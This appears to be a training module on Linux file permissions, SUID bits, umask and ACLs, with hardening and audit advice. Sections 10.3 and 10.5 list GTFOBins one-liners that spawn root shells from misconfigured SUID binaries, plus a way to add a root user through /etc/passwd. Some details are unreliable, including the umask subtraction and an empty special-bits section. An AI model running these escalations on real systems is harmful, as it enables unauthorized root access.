


# Module 10: Linux Security Fundamentals: Discretionary Access Control (DAC)

## 10.1 The Linux Multi-User Security Philosophy & Philosophy of "Everything is a File"

The Linux operating system derives its architectural security lineage from UNIX. Linux enforces isolation through two fundamental axioms:
1. **Multi-User Isolation**: Every process executing on the system is owned by a specific **User ID (UID)** and **Group ID (GID)**. Resource permissions are strictly partitioned between different user accounts.
2. **"Everything is a File"**: Hardware devices (disks, terminals, graphics cards), network sockets, inter-process communication pipes, and kernel state structures (`/proc`, `/sys`) are represented as nodes within a unified hierarchical filesystem tree. Access to system hardware is governed by standard filesystem permissions.

```
Linux User ID Hierarchy:
  UID 0:        root (Superuser / Omnipotent Administrative Authority)
  UID 1 - 999:  System Accounts (daemon, bin, www-data, sshd, nobody)
  UID 1000+:    Standard Interactive User Accounts (alice, bob, developer)
```

---

## 10.2 Standard File Permissions & Octal Representation

Linux **Discretionary Access Control (DAC)** associates a 9-bit permission triplet with every file and directory, dividing subjects into three distinct classes:
- **User / Owner (`u`)**: The specific user account that owns the file.
- **Group (`g`)**: The group identity assigned to the file.
- **Others / World (`o`)**: All other user accounts on the operating system.



### Semantic Meaning: Files vs. Directories
The operational behavior of the standard permission bits differs fundamentally between regular files and directories:

| Permission Bit | Regular File Semantic | Directory Semantic |
| :---: | :--- | :--- |
| **`r` (Read, Value: 4)** | Permits reading file contents (e.g., `cat`, `less`). | Permits listing files contained in the directory (e.g., `ls`). |
| **`w` (Write, Value: 2)**| Permits modifying or overwriting file contents. | Permits **creating, deleting, or renaming files** within the directory (even files owned by other users!). |
| **`x` (Execute, Value: 1)**| Permits running the file as a program or script. | Permits **entering / traversing** the directory (e.g., `cd`) and accessing metadata of files inside. |

---

## 10.3 Special Permissions: SUID, SGID & The Sticky Bit

In addition to standard read, write, and execute bits, Linux incorporates three high-order **Special Permission Bits**:



### Security Hazards of SUID Binaries & Privilege Escalation
SUID binaries owned by `root` are primary targets for local privilege escalation:
- If a SUID binary contains a buffer overflow, format string vulnerability, or command injection flaw, an unprivileged local attacker can exploit it to spawn a root shell.
- **GTFOBins Exploitation**: If administrative utilities (e.g., `nmap`, `vim`, `find`, `bash`, `python`) are inadvertently granted SUID root permissions:
  ```bash
  # Exploiting SUID on find to gain immediate root:
  find . -exec /bin/sh -p \; -quit
  ```
- **Auditing Command**: Defenders audit the system for rogue SUID binaries using:
  ```bash
  find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null
  ```

---

## 10.4 The Umask & POSIX Access Control Lists (ACLs)

### 1. Default Creation Permissions & `umask`
When a process creates a new file or directory, the initial permission is determined by masking the default base mode (`0666` for files, `0777` for directories) with the process's **`umask`** (user file-creation mode mask):
$$\text{Created File Mode} = 0666 \land (\neg \text{umask})$$
$$\text{Created Directory Mode} = 0777 \land (\neg \text{umask})$$
- A standard secure server `umask` of `0027` results in:
  - Files: `0666 - 0027 = 0640` (`-rw-r-----` : Owner read/write, Group read, Others zero permissions).
  - Directories: `0777 - 0027 = 0750` (`drwxr-x---`).

### 2. POSIX Access Control Lists (ACLs)
Standard DAC permits specifying permissions for only one owner and one group. In enterprise environments, files often require granular access rules for multiple disparate users and groups. **POSIX ACLs** extend DAC without requiring kernel modifications.

```bash
# Inspecting ACLs on a sensitive file:
getfacl /var/log/audit/audit.log

# Granting user 'developer' read and write access without altering file group:
setfacl -m u:developer:rw /var/log/audit/audit.log

# Setting default ACLs on a directory (automatically inherited by future children):
setfacl -d -m g:finance:r-x /shared/finance_reports
```

---
---

## 10.5 Linux Privilege Escalation via GTFOBins & SUID Exploitation

When administrative utilities are mistakenly granted the SUID bit (`chmod u+s /path/to/binary`), unprivileged users can manipulate their interactive features to spawn root shells:

| Binary | Exploitation Vector / Command | Escalation Mechanism |
| :--- | :--- | :--- |
| **`/usr/bin/find`** | `find . -exec /bin/sh -p \; -quit` | Executes external command via `-exec` while preserving SUID root permissions. |
| **`/usr/bin/vim`** | `vim -c ':!/bin/sh'` | Escapes interactive editor to spawn subshell in root context. |
| **`/usr/bin/awk`** | `awk 'BEGIN {system("/bin/sh")}'` | Leverages embedded awk scripting engine to execute shell. |
| **`/usr/bin/python`** | `python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'` | Invokes `execl` system call directly with preserved privileges. |
| **`/usr/bin/cp`** | `cp /bin/sh /tmp/rootsh; chmod 4755 /tmp/rootsh` | Copies shell or overwrites `/etc/passwd` to insert a new root user record. |
| **`/usr/bin/less`** | `less /etc/hosts` then enter `!/bin/sh` | Pager command breakout feature drops directly into elevated shell. |

### Hardening Against SUID Exploits
1. **Mounting Partitions with `nosuid`**:
   - In `/etc/fstab`, mount user-writable partitions (e.g., `/tmp`, `/var/tmp`, `/home`) with the `nosuid` mount flag. The kernel will refuse to execute SUID binaries stored on those partitions.
2. **Auditing Cron Jobs & SUID Lists**:
   - Automated scripts must periodically scan system mounts to detect unauthorized SUID additions:
     ```bash
     find / -xdev -type f -perm -4000 -exec ls -ld {} + > /root/golden_suid_manifest.txt
     ```
